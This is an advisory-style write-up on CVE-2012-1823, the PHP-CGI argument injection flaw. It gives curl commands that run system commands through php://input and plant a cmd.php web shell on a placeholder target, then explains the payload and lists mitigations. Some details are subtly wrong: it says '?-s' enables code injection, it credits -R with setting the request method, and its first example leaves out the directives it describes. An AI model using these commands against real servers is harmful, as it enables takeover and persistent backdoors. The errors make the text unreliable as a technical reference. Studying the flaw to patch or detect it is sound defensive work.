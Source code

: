 **Real-World Impact:** A successful exploitation of CVE-2012-1823 grants an attacker arbitrary code execution on the web server. This means the attacker can:

*   **Execute System Commands:** Run any command on the server, potentially leading to full system compromise.
*   **Read/Write Files:** Access, modify, or delete any files accessible to the web server process.
*   **Install Backdoors:** Establish persistent access to the compromised server.
*   **Deface Websites:** Alter website content.
*   **Pivot to Internal Networks:** Use the compromised server as a stepping stone to attack other systems within the network.

**Technical Details and Exploitation:**

The exploitation of CVE-2012-1823 is relatively straightforward. The attacker appends a specially crafted query string to the URL of a PHP file that is being executed via CGI.

**Example Exploit (using `curl`):**

Let's assume a vulnerable PHP file `info.php` exists on the server.

```bash
# Example 1: Executing a simple command (e.g., `id`)
# The -s option is used to set a PHP configuration directive.
# The -R option is used to specify the request method.
# The -d allow_url_include=On -d auto_prepend_file=php://input part allows injecting PHP code directly.
curl -s -X GET "http://<target_ip>/info.php?-s" -d "<?php system(\'id\'); ?>"

# Example 2: Creating a simple backdoor (e.g., `cmd.php`)
# This creates a file named cmd.php that can execute commands via a GET parameter.
curl -s -X GET "http://<target_ip>/info.php?-d+allow_url_include%3dOn+-d+auto_prepend_file%3dphp%3a%2f%2finput" -d "<?php file_put_contents(\'cmd.php\', \'<?php system($_GET[\\'cmd\\']); ?>\'); ?>"

# After creating the backdoor, you can execute commands like this:
# curl "http://<target_ip>/cmd.php?cmd=ls%20-la"
```

**Explanation of the payload:**

*   `?-s`: This tells the PHP CGI interpreter to parse the subsequent data as if it were from `php://stdin`. When combined with `php://input`, it allows direct code injection.
*   `-d allow_url_include=On`: This sets the `allow_url_include` PHP directive to `On`, which is necessary for `php://input` to be treated as an includeable file.
*   `-d auto_prepend_file=php://input`: This directive tells PHP to parse the content of `php://input` (which is the POST data in our `curl` request) before executing the main PHP script. This is where our malicious PHP code is injected.
*   `<?php system(\'id\'); ?>`: This is the malicious PHP code that executes the `id` command on the server.
*   `file_put_contents(\'cmd.php\', \'<?php system($_GET[\\'cmd\\']); ?>\')`: This PHP code creates a new file `cmd.php` with content that allows arbitrary command execution via the `cmd` GET parameter.

**Mitigation:** The most effective mitigation is to upgrade PHP to a patched version (5.3.13 or later, or 5.4.2 or later). If upgrading is not immediately possible, ensure that PHP is not configured to run as a CGI script. Instead, use FPM (FastCGI Process Manager) or mod_php (for Apache) for a more secure execution environment. Additionally, implement robust input validation and web application firewalls (WAFs) to detect and block malicious requests.

---